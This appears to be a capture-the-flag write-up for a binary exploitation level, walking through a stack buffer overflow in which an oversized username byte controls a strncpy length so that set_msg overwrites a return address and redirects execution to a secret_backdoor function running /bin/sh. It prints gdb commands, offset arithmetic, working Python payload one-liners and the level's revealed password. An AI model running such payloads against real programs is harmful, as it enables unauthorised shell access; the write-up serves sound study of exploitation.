 In this level, we have a program that takes a username then a message from user, the main() calls handle_msg() that creates a buffer[140] then handles both inputs in 2 different functions: set_username() and set_msg(), let's start with the first:

set_username(): this function reads 0x80(128) characters from stdin using fgets then appends the first 40 chars to the end of the buffer :

![image1](ressources/image1.png)

set_msg(): this function reads 0x400(1024) chars from buffer then uses strncpy. The trick here is in the len argument of strncpy because it copies n characters from a temporary buffer to our main buffer[140] where n is the 180th characters in our buffer[140] converted to int :
**strncpy(buff, temp, (long)*(buff + 180))**
as we saw in the set_username that will be in buffer[180] is the last character written in username, so we'll make it \xff so we can copy all 256 from buffer (maximum).

now we'll need to overwrite the return address of handle_msg(since it's the function that declared our buffer) to **secret_backdoor** to call system, we'll get our buffer's and return address from gdb by breaking before set_msg() call and checking rdi and frame

b *0x000055555555491f
r
x $rdi // since our buffer is passed as an argument to set_msg()
**0x7fffffffe4d0** // our buffer address
info frame // to get return address from saved rip
Saved registers:
  rbp at 0x7fffffffe590, rip at **0x7fffffffe598**

if we calculate the difference 0x7fffffffe598-0x7fffffffe4d0 = 200
it means we need to write 199 characters in our buffer followed by the address of secret_backdoor() 0x000055555555488c, let's fill our payload with anything "A"s in this case:

python -c 'print("\xff"*127+"A"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00")' > p, if we run this payload with gdb and check the return address (0x7fffffffe598) after set_msg() is indeed changed to secret_backdoor.
if we continue the program we'll see that we indeed entered to secret_backdoor but our system got called with a bunch of "A"s as argument which is not what we want.

![image2](ressources/image2.png)

we'll need to pass "/bin/sh" to it instead.
(tip: we'll pad with spaces before and after because they're ignored in commands), our final payload:

python -c 'print("\xff"*127 + " "*100 + "/bin/sh" + " "*93 + "\x8c\x48\x55\x55\x55\x55\x00\x00")' > payload;cat payload - | ./level09

cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

